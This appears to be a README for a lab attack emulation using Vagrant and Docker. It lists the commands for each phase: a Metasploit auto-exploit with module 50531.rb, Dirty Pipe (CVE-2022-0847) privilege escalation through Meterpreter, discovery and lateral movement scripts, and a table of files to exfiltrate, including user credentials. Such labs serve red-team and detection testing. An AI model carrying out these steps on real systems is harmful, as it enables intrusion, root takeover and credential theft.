 # Recon
```bash

```

# Execution
```bash
# Execution
cd /vagrant/Attacks/Execution
# copy exploit to metasploit framework directory
cp 50531.rb /usr/share/metasploit-framework/modules/exploits/linux/
# run msfconsole with the resource script to auto exploit with the set configurations
msfconsole -r MsfAutoExploit.rc
```

# Privilege Escalation
```bash
# All commands shall be executed inside the Meterpreter session established in Execution phase
# Upload dirtypipe.sh and CVE-2022-0847.c to /tmp directory
# Both files are located in / directory of Kali container
upload dirtypipe.sh /tmp
upload CVE-2022-0847.c /tmp

# Execute dirtypipe.sh to get root shell
execute -f ./tmp/dirtypipe.sh -i -H
```

# Discovery
```bash
cd /vagrant/Attacks/Discovery
# Setup discovery in vagrant host
./discovery_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./discovery.sh # Run this in s1 root shell --> script is located in root / dir
```

# Lateral Movement
```bash
cd /vagrant/Attacks/Lateral_Movement
./lateral_movement_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./lateral_movement.sh # Run this in s1 root shell --> script is located in root / dir
```

# Exfiltration
```bash


```

Files to be exfiltrated in S1:

| s/n | Filename            | Machine |
| --- | ------------------- | ------- |
| 1   | /networkenum.txt    | s1      |
| 2   | /ips_sorted.txt     | s1      |
| 3   | /traceroute.txt     | s1      |
| 4   | /internal_host_scan | s1      |
| 5   | /users.txt          | s1      |
| 6   | /db_users.txt       | s1      |
| 7   | /user_creds.txt     | s1      |
| 8   | /ps_aux.txt         | s1      |
| 9   | /local_groups.txt   | s1      |
| 10  | /sysenum.txt        | s1      | 